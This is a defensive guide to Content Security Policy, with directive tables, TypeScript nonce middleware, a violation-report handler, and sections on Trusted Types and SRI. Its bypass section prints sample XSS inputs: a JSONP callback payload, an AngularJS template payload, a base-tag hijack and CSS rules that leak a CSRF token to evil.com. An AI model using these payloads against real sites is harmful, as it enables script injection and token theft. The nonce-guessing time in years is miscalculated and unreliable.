


# Content Security Policy: Directives, Nonces, and Bypass Defense

## Why CSP Exists

Cross-Site Scripting (XSS) remains one of the most prevalent web vulnerabilities. Despite input sanitization, output encoding, and secure frameworks, XSS vulnerabilities appear regularly because the attack surface is enormous: user input fields, URL parameters, third-party scripts, browser extensions, CDN compromises, and DOM manipulation APIs all represent potential injection vectors.

Content Security Policy (CSP) is a **last line of defense**: even if an attacker injects a script, CSP instructs the browser to refuse to execute it. It converts a successful XSS injection from "code execution in user's browser" to "browser blocks the script, attack fails."

### Historical Context

Before CSP, the browser's execution model was simple: any script that appears in the page, regardless of origin, gets executed with full access to the DOM, cookies, and network. This made XSS catastrophic — a single injected script could exfiltrate session tokens, redirect users, or install keyloggers.

CSP (Level 1) was introduced in Firefox 4.0 (2011) and Chrome 14 (2011). CSP Level 2 (2015) added nonces and hashes. CSP Level 3 (2018) added `strict-dynamic`. As of 2024, all major browsers support CSP Level 3 features.

## First Principles

### The CSP Mental Model

CSP works as an allowlist delivered via HTTP header (or meta tag). The browser enforces it before executing any resource:



### CSP Levels and Browser Support

| Feature | Level | Chrome | Firefox | Safari |
|---------|-------|--------|---------|--------|
| Source allowlists | 1 | 14+ | 4+ | 7+ |
| Nonces | 2 | 40+ | 31+ | 10+ |
| Hashes | 2 | 40+ | 31+ | 10+ |
| `strict-dynamic` | 3 | 52+ | 52+ | 15.4+ |
| `report-to` | 3 | 70+ | 65+ | 16+ |
| `trusted-types` | — | 83+ | No | No |

## Directive Reference

### Fetch Directives (Control Resource Loading)

```
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'nonce-{random}' 'strict-dynamic';
  style-src 'self' 'nonce-{random}';
  img-src 'self' data: https://cdn.example.com;
  font-src 'self' https://fonts.gstatic.com;
  connect-src 'self' https://api.example.com wss://ws.example.com;
  frame-src 'none';
  object-src 'none';
  base-uri 'self';
  form-action 'self';
  upgrade-insecure-requests;
```

| Directive | Controls | Critical? |
|-----------|---------|---------|
| `default-src` | Fallback for all fetch directives | Yes |
| `script-src` | JavaScript sources | Critical |
| `style-src` | CSS sources | High |
| `img-src` | Image sources | Medium |
| `font-src` | Font sources | Low |
| `connect-src` | fetch/XHR/WebSocket destinations | High |
| `frame-src` | `<iframe>` sources | High |
| `object-src` | `<object>`, `<embed>`, `<applet>` | Critical |
| `base-uri` | Restricts `<base>` tag | High |
| `form-action` | Form submission targets | High |
| `worker-src` | Worker and SharedWorker sources | High |
| `manifest-src` | Web app manifests | Low |

### Navigation Directives

```
frame-ancestors 'none';        # No one can frame this page (replaces X-Frame-Options)
frame-ancestors 'self';        # Only same origin can frame
frame-ancestors https://app.example.com;  # Specific origin
```

`frame-ancestors` is not affected by `default-src`. It must be set explicitly.

## Core Mechanics

### Nonce-Based CSP (Recommended)

A nonce (number used once) is a cryptographically random value generated fresh for each page load. It's included in the CSP header and on every legitimate script tag. Injected scripts cannot know the nonce, so they're blocked.



### Hash-Based CSP

For static inline scripts that cannot receive a nonce (e.g., inline JSON-LD, analytics snippets):

```
script-src 'sha256-{base64-encoded-sha256-of-script-content}'
```

The browser computes the hash of the inline script content and compares it to the policy. If it matches, execution is allowed.

```typescript
import { createHash } from 'crypto';

function computeCspHash(scriptContent: string): string {
  const hash = createHash('sha256')
    .update(scriptContent, 'utf8')
    .digest('base64');
  return `'sha256-${hash}'`;
}

// For: <script>console.log('hello')</script>
const hash = computeCspHash("console.log('hello')");
// Result: 'sha256-B2yPHKaXnvFWtRChIboo6bnRtYV4s1Jh/oqiRCO8gjo='
```

::: warning
Hash-based CSP breaks whenever the script content changes — even a whitespace change changes the hash. It's suitable for truly static scripts but operationally painful otherwise. Use nonces for dynamic pages.
:::

## Implementation

### Production CSP Middleware (TypeScript)

```typescript
import { Request, Response, NextFunction } from 'express';
import { randomBytes } from 'crypto';

export interface CspOptions {
  mode: 'enforce' | 'report-only';
  reportUri?: string;
  reportTo?: string;
  extraScriptSrc?: string[];
  extraStyleSrc?: string[];
  extraConnectSrc?: string[];
  extraImgSrc?: string[];
  upgradeInsecureRequests?: boolean;
}

/**
 * Generate a cryptographically random nonce for CSP.
 * 128 bits (16 bytes) of randomness is sufficient.
 */
export function generateNonce(): string {
  return randomBytes(16).toString('base64');
}

/**
 * Build the CSP header value with the given nonce.
 */
export function buildCspHeader(nonce: string, options: CspOptions): string {
  const scriptSrc = [
    "'self'",
    `'nonce-${nonce}'`,
    "'strict-dynamic'",
    // strict-dynamic makes allowlisted hosts irrelevant for scripts
    // that are dynamically created by trusted scripts
    ...(options.extraScriptSrc ?? []),
  ];

  const styleSrc = [
    "'self'",
    `'nonce-${nonce}'`,
    ...(options.extraStyleSrc ?? []),
  ];

  const connectSrc = [
    "'self'",
    ...(options.extraConnectSrc ?? []),
  ];

  const imgSrc = [
    "'self'",
    'data:',
    'blob:',
    ...(options.extraImgSrc ?? []),
  ];

  const directives: string[] = [
    `default-src 'self'`,
    `script-src ${scriptSrc.join(' ')}`,
    `style-src ${styleSrc.join(' ')}`,
    `img-src ${imgSrc.join(' ')}`,
    `font-src 'self'`,
    `connect-src ${connectSrc.join(' ')}`,
    `media-src 'self' blob:`,
    `worker-src 'self' blob:`,
    `frame-src 'none'`,
    `object-src 'none'`,
    `base-uri 'self'`,
    `form-action 'self'`,
    `frame-ancestors 'none'`,
  ];

  if (options.upgradeInsecureRequests !== false) {
    directives.push('upgrade-insecure-requests');
  }

  if (options.reportUri) {
    directives.push(`report-uri ${options.reportUri}`);
  }

  if (options.reportTo) {
    directives.push(`report-to ${options.reportTo}`);
  }

  return directives.join('; ');
}

/**
 * Express middleware that generates a per-request nonce and sets CSP headers.
 */
export function cspMiddleware(options: CspOptions) {
  const headerName = options.mode === 'report-only'
    ? 'Content-Security-Policy-Report-Only'
    : 'Content-Security-Policy';

  return (req: Request, res: Response, next: NextFunction) => {
    const nonce = generateNonce();

    // Make nonce available to template engines
    res.locals.cspNonce = nonce;
    (req as any).cspNonce = nonce;

    const cspValue = buildCspHeader(nonce, options);
    res.setHeader(headerName, cspValue);

    next();
  };
}

// ── Report-To group configuration ─────────────────────────────────────────────

export function reportToMiddleware(endpoint: string) {
  const reportToValue = JSON.stringify({
    group: 'csp-endpoint',
    max_age: 86400,
    endpoints: [{ url: endpoint }],
  });

  return (_req: Request, res: Response, next: NextFunction) => {
    res.setHeader('Report-To', reportToValue);
    next();
  };
}
```

### Template Integration (Handlebars/EJS)

```typescript
// Handlebars helper
import Handlebars from 'handlebars';

Handlebars.registerHelper('cspNonce', function(this: { cspNonce: string }) {
  return new Handlebars.SafeString(`nonce="${this.cspNonce}"`);
});

// Usage in template:
// <script {​{cspNonce}}>
//   const config = {​{{jsonConfig}}};
// </script>
```

```html
<!-- EJS template -->
<script nonce="<%= cspNonce %>">
  window.__APP_CONFIG__ = <%- JSON.stringify(config) %>;
</script>

<!-- React SSR with nonce -->
<script nonce="<%= cspNonce %>" id="__NEXT_DATA__" type="application/json">
  <%- JSON.stringify(pageProps) %>
</script>
```

### CSP Violation Report Handler

```typescript
import { Router } from 'express';
import { z } from 'zod';

const CspViolationSchema = z.object({
  'csp-report': z.object({
    'document-uri': z.string(),
    'referrer': z.string().optional(),
    'blocked-uri': z.string(),
    'violated-directive': z.string(),
    'original-policy': z.string(),
    'source-file': z.string().optional(),
    'line-number': z.number().optional(),
    'column-number': z.number().optional(),
    'status-code': z.number().optional(),
  }),
});

export const cspReportRouter = Router();

cspReportRouter.post(
  '/csp-report',
  // CSP reports have content-type application/csp-report
  // raw body parser needed
  (req, res) => {
    let report: unknown;
    try {
      report = JSON.parse(req.body.toString());
    } catch {
      return res.status(400).end();
    }

    const parsed = CspViolationSchema.safeParse(report);
    if (!parsed.success) {
      return res.status(400).end();
    }

    const violation = parsed.data['csp-report'];

    // Filter noise before logging
    const blockedUri = violation['blocked-uri'];

    // Browser extensions cause many false-positive reports
    if (
      blockedUri.startsWith('chrome-extension://') ||
      blockedUri.startsWith('moz-extension://') ||
      blockedUri.startsWith('safari-extension://')
    ) {
      return res.status(204).end();
    }

    // Injected resources from ISPs/hotspot portals
    if (
      violation['violated-directive'].includes('script-src') &&
      (blockedUri.includes('hotspot') || blockedUri.includes('captive'))
    ) {
      return res.status(204).end();
    }

    // Log real violations
    console.error('CSP Violation', {
      blockedUri,
      violatedDirective: violation['violated-directive'],
      documentUri: violation['document-uri'],
      sourceFile: violation['source-file'],
      lineNumber: violation['line-number'],
    });

    // In production, send to security team alert channel
    // await alertSecurityTeam(violation);

    res.status(204).end();
  }
);
```

## Bypass Techniques to Defend Against

### 1. JSONP Endpoints as Bypass Vectors

JSONP endpoints (`/api/data?callback=evil`) allow executing arbitrary JavaScript because the response is a function call. If your `script-src` allows a domain that hosts JSONP, the CSP is bypassed:

```
// Attacker injects: <script src="https://api.example.com/data?callback=alert(1)//"></script>
// If api.example.com is in script-src, this executes alert(1)
```

**Defense**: Eliminate all JSONP endpoints. They're a relic from pre-CORS times. If an external partner requires JSONP allowlisting in your CSP, it completely undermines script-src protection for that origin.

### 2. Angular/AngularJS Template Injection

AngularJS 1.x renders expressions (`{​{ }}`) from HTML, making it a CSP bypass vector when AngularJS is loaded from a whitelisted CDN:

```html
<!-- If ajax.googleapis.com/ajax/libs/angularjs/... is in script-src -->
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8/angular.min.js"></script>
<div ng-app>{​{ constructor.constructor('alert(1)')() }}</div>
```

**Defense**: Use `'strict-dynamic'` with nonces. With strict-dynamic, only scripts with a valid nonce can run, and they can then dynamically load other scripts. Domain allowlists become irrelevant.

### 3. `data:` URI Script Execution

`data:text/javascript,alert(1)` is a classic bypass when `data:` appears in `script-src`:

```
// Never put data: in script-src
// It's fine in img-src, but never in script-src
```

**Defense**: `data:` should never appear in `script-src`. Period.

### 4. Polyglot Attacks via `object-src`

If `object-src` is not set to `'none'`, Flash objects (historical) and PDF plugins can execute scripts:

```
// Always set: object-src 'none'
```

### 5. `base-uri` Injection

The `<base>` tag changes the base URL for all relative URLs in the document. Without `base-uri 'self'`, an XSS injection of `<base href="https://evil.com">` causes all relative script src attributes to load from evil.com:

```html
<!-- Without base-uri restriction -->
<base href="https://evil.com">
<script src="/app.js"></script>  <!-- Now loads https://evil.com/app.js -->
```

**Defense**: Always set `base-uri 'self'` or `base-uri 'none'`.

### 6. Stylesheet-Based Data Exfiltration

CSS can exfiltrate data via `@import` rules and attribute selectors that make network requests:

```css
/* Exfiltrates CSRF token one character at a time */
input[name="csrf"][value^="a"] { background: url(https://evil.com/?c=a) }
input[name="csrf"][value^="b"] { background: url(https://evil.com/?c=b) }
/* ... repeat for all characters */
```

**Defense**: `style-src 'self'` without `unsafe-inline`. The injected `<style>` block won't run. Also use nonces on legitimate `<style>` blocks.

### 7. `unsafe-inline` Renders Script-src Useless

`'unsafe-inline'` in `script-src` allows any inline script execution — completely defeating XSS protection from CSP. Many legacy apps require it because they have inline scripts throughout.

**Migration path**:
1. Deploy CSP in report-only mode with `'unsafe-inline'`
2. Collect reports to identify all inline scripts
3. Move inline scripts to external files or add nonces
4. Deploy CSP in enforcement mode without `'unsafe-inline'`

### 8. `strict-dynamic` Trusts Script-Created Scripts

With `strict-dynamic`, scripts loaded by a nonced/hashed script inherit that trust. This means you don't need to whitelist CDNs for dynamically loaded scripts. However, if a trusted script has a vulnerability that allows code injection, `strict-dynamic` can propagate that trust to injected scripts.

## Performance Characteristics

| Aspect | Impact | Notes |
|--------|--------|-------|
| CSP header parsing | ~0.1ms | One-time per page load |
| Nonce generation | <0.01ms | `randomBytes(16)` is fast |
| CSP enforcement (allowed resource) | ~0ms | Native browser code |
| CSP enforcement (blocked resource) | ~0ms | Blocked before request |
| Report sending | Async | Does not block page load |
| Header size | ~500-2000 bytes | Included in every response |

## Mathematical Foundations

### Nonce Security

A nonce of $n$ bits has guessing probability per attempt:

$$P(\text{guess}) = \frac{1}{2^n}$$

For $n = 128$ bits (our 16-byte nonce):

$$P(\text{guess}) = \frac{1}{2^{128}} \approx 3 \times 10^{-39}$$

With $10^9$ guesses per second (highly optimistic for a network attacker given rate limiting), expected time to guess:

$$T = \frac{2^{128}}{10^9 \text{ guesses/s}} \approx 10^{29} \text{ years}$$

This is computationally infeasible. The security relies on:
1. Using a cryptographically secure random number generator (`crypto.randomBytes`, NOT `Math.random`)
2. Generating a fresh nonce for each page response
3. Never reusing nonces across different page loads

### CSP Bypass Probability with Defense-in-Depth

With a properly configured nonce-based CSP:

$$P(\text{XSS execution}) = P(\text{nonce guess}) + P(\text{browser bug}) + P(\text{misconfiguration})$$

$$P(\text{XSS execution}) \approx 3 \times 10^{-39} + P_{\text{browser-bug}} + P_{\text{misconfig}}$$

The dominant term becomes browser bugs and misconfiguration, not cryptographic weakness.

## Real-World War Stories

::: info War Story: The Analytics Script That Broke CSP

A retail company deployed a strict nonce-based CSP after a major XSS vulnerability. Three weeks later, the marketing team added a new analytics vendor whose tag injected additional script tags at runtime. These dynamically injected scripts had no nonce and were blocked by CSP.

Without `strict-dynamic`, every dynamically loaded analytics script had to be whitelisted individually. With `strict-dynamic`, the nonced inline snippet could dynamically load scripts without those scripts needing nonces themselves.

The fix required understanding `strict-dynamic` semantics: scripts loaded by trusted scripts are automatically trusted. The root inline analytics snippet got a nonce, and all dynamic child scripts loaded from it were automatically allowed.

Lesson: `strict-dynamic` is essential for any modern web app that loads third-party scripts. Without it, you either whitelist domains (weak) or break analytics/chat/feature-flag systems.
:::

::: info War Story: The CSP That Was Never Actually Enforced

A fintech company had `Content-Security-Policy` headers in their nginx config but discovered during a security audit that their application servers sat behind a reverse proxy that stripped security headers from responses. The CSP had been "deployed" for over a year but was never being sent to browsers.

A subsequent XSS scan found 7 vulnerabilities that would have been blocked by the CSP. None had been exploited (no evidence), but the false sense of security had led the team to defer remediating underlying XSS issues.

Verification protocol: Always test CSP enforcement with browser DevTools → Application → Security and verify the policy appears as expected. Also run automated header verification in CI/CD.
:::

## Decision Framework

### CSP Maturity Model

| Level | Policy | Protection | Effort |
|-------|--------|-----------|--------|
| 0 | No CSP | None | None |
| 1 | `default-src 'self'` | Basic | Low |
| 2 | Report-only, full policy | Visibility only | Medium |
| 3 | Enforced with `unsafe-inline` | Limited | Medium |
| 4 | Nonce-based, no `unsafe-inline` | Strong | High |
| 5 | Nonce + `strict-dynamic` + Trusted Types | Maximum | Very High |

Start at Level 2 to collect baseline violations before enforcing. Advance levels progressively to avoid breaking changes.

### When to Use Each Directive Value

| Value | Use When | Never Use |
|-------|---------|-----------|
| `'none'` | `frame-src`, `object-src` | `default-src` alone |
| `'self'` | Most directives | Always combine with allowlist |
| `'nonce-xxx'` | Inline scripts, dynamic pages | Server-side cache where nonce can't rotate |
| `'sha256-xxx'` | Static inline scripts | Frequently changed scripts |
| `'strict-dynamic'` | Modern SPAs with dynamic script loading | Sites supporting IE11 |
| `'unsafe-inline'` | Legacy migration only | Production with security requirements |
| `'unsafe-eval'` | Template engines that use eval | Never in production |

## Advanced Topics

### Trusted Types

Trusted Types (Chrome 83+) extends CSP to prevent DOM XSS — the most common modern XSS vector where JavaScript itself injects HTML:

```typescript
// Without Trusted Types:
// element.innerHTML = userInput; // DOM XSS even if content is "sanitized"

// With Trusted Types policy:
const policy = trustedTypes.createPolicy('escape-html', {
  createHTML: (input: string) => {
    return input
      .replace(/&/g, '&amp;')
      .replace(/</g, '&lt;')
      .replace(/>/g, '&gt;')
      .replace(/"/g, '&quot;');
  },
});

// Now this is required — raw strings are rejected
element.innerHTML = policy.createHTML(userInput);
```

CSP header to enable:
```
require-trusted-types-for 'script';
trusted-types escape-html dompurify;
```

### Subresource Integrity (SRI)

SRI ensures CDN-hosted scripts haven't been tampered with:

```html
<script
  src="https://cdn.example.com/lib.js"
  integrity="sha256-{base64-hash}"
  crossorigin="anonymous"
></script>
```

SRI + CSP together: CSP controls which origins can serve scripts, SRI ensures the content from those origins is exactly what you expect. If the CDN is compromised and serves modified scripts, SRI blocks execution.

```typescript
import { createHash } from 'crypto';
import { readFileSync } from 'fs';

function computeSriHash(filePath: string): string {
  const content = readFileSync(filePath);
  const hash = createHash('sha256').update(content).digest('base64');
  return `sha256-${hash}`;
}
```

::: tip
For production deployments, generate SRI hashes at build time and inject them into your HTML templates. This creates a cryptographic chain of trust from your build system through the CDN to the browser.
:::
